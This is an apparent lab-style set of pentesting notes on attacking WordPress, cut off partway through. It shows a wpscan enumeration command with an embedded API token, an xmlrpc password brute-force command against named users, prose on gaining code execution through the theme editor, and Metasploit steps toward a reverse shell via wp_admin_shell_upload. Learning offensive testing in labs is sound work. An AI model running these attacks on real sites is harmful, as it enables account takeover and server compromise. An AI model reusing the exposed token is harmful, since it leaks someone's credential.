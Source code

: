             wpscan --url http://10.129.2.37/ --enumerate --api-token cs0QRHwsYE6RvLd6SaHDhI1dmNX8ZVLEx0Fb7mNid9s
            
      
##### 👀Note: Api Token Generator Link https://wpscan.com/


# ✔️ Exploiting a Vulnerable Plugin
If we are checking and testing properly of our target wordpress website and if  target wordpress website is vulneable we will see some CVE or Exploite information after using above wpscan command
### ☑️WordPress User Bruteforce
WPScan can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, xmlrpc and wp-login. The wp-login method will attempt to brute force the normal WordPress login page, while the xmlrpc method uses the WordPress API to make login attempts through /xmlrpc.php. The xmlrpc method is preferred as it is faster.

Command :
          
          wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
          
#### 👁️Note: use username and password in http://sitename/login path
          
# 🔥Remote Code Execution (RCE) via the Theme Editor 🔥

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on Appearance on the side panel and select Theme Editor. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

# 🔥Attacking WordPress with Metasploit 🔥
We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.
###### To obtain the reverse shell, we can use the wp_admin_shell_upload module. We can easily search for it inside MSF:

        msf5 > search wp_admin

###### Matching Modules

0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
###### Module Selection:
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
